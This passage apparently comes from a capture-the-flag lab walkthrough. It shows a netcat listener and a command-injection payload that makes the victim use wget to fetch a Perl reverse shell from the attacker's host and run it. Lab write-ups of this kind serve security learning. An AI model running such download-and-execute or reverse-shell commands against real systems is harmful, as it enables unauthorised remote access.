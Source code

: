 In my case I'll be using port 443, and my IP address is 192.168.56.102. Make sure to replace those values with the ones relevant to you if you're following along. Finally, start your web server (if you're using Apache, run this command: <code>service apache2 start</code>).

Set up your listener to catch the shell:
<code>nc -nlvp 443</code>

Now we need to use wget on the victim to download the shell and write it to somewhere. This can be accomplished with this command:
<code>ls && wget http://192.168.56.102/perl-reverse-shell.pl -O /tmp/perl-reverse-shell.pl && perl /tmp/perl-reverse-shell.pl</code>

![Alt text](/images/bulldog_4.png?raw=true "reverse shell")

